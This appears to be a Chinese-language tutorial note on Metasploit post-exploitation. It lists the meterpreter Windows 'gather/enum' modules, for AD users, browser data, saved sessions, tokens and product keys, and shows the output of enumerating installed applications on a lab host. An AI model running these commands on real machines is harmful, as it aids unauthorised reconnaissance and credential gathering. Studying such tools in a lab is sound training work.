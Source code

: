 enum 枚举

```
meterpreter > run post/windows/gather/enum_
run post/windows/gather/enum_ad_bitlocker                run post/windows/gather/enum_domains
run post/windows/gather/enum_ad_computers                run post/windows/gather/enum_emet
run post/windows/gather/enum_ad_groups                   run post/windows/gather/enum_files
run post/windows/gather/enum_ad_managedby_groups         run post/windows/gather/enum_hostfile
run post/windows/gather/enum_ad_service_principal_names  run post/windows/gather/enum_ie
run post/windows/gather/enum_ad_to_wordlist              run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_ad_user_comments            run post/windows/gather/enum_ms_product_keys
run post/windows/gather/enum_ad_users                    run post/windows/gather/enum_patches
run post/windows/gather/enum_applications                run post/windows/gather/enum_powershell_env
run post/windows/gather/enum_artifacts                   run post/windows/gather/enum_proxy
run post/windows/gather/enum_av_excluded                 run post/windows/gather/enum_putty_saved_sessions
run post/windows/gather/enum_chrome                      run post/windows/gather/enum_services
run post/windows/gather/enum_computers                   run post/windows/gather/enum_shares
run post/windows/gather/enum_db                          run post/windows/gather/enum_snmp
run post/windows/gather/enum_devices                     run post/windows/gather/enum_termserv
run post/windows/gather/enum_dirperms                    run post/windows/gather/enum_tokens
run post/windows/gather/enum_domain                      run post/windows/gather/enum_tomcat
run post/windows/gather/enum_domain_group_users          run post/windows/gather/enum_trusted_locations
run post/windows/gather/enum_domain_tokens               run post/windows/gather/enum_unattend
run post/windows/gather/enum_domain_users                

```

查看有哪些应用

```
meterpreter > run post/windows/gather/enum_applications 

[*] Enumerating applications installed on ADMIN-PC

Installed Applications
======================

 Name                                                            Version
 ----                                                            -------
 Microsoft .NET Framework 4 Client Profile                       4.0.30319
 Microsoft .NET Framework 4 Client Profile                       4.0.30319
 Microsoft .NET Framework 4 Extended                             4.0.30319
 Microsoft .NET Framework 4 Extended                             4.0.30319
 Microsoft Visual C++ 2017 Redistributable (x64) - 14.12.25810   14.12.25810.0
 Microsoft Visual C++ 2017 Redistributable (x86) - 14.12.25810   14.12.25810.0
 Microsoft Visual C++ 2017 x64 Additional Runtime - 14.12.25810  14.12.25810
 Microsoft Visual C++ 2017 x64 Minimum Runtime - 14.12.25810     14.12.25810
 Microsoft Visual C++ 2017 x86 Additional Runtime - 14.12.25810  14.12.25810
 Microsoft Visual C++ 2017 x86 Minimum Runtime - 14.12.25810     14.12.25810
 VMware Tools                                                    10.3.10.12406962
 phpstudy集成环境                                                8.1.0.5
 搜狗高速浏览器 8.6.3.32795                                      8.6.3.32795


[+] Results stored in: /root/.msf4/loot/20200918234948_default_192.168.2.142_host.application_738124.txt
```
